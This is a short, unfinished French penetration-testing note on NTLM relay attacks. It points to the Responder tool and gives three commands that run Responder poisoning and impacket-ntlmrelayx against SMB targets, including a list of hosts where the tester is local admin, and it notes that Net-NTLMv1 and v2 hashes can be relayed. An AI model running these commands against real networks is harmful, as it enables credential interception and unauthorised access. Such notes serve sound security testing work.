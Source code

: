```yaml
---
description: A finir
---
```


# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

```
sudo responder -I eth0 -vrd
sudo impacket-ntlmrelayx -t smb://<IP> -i -debug
sudo impacket-ntlmrelayx -tf IP_postes_localadmin.txt -smb2support
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.
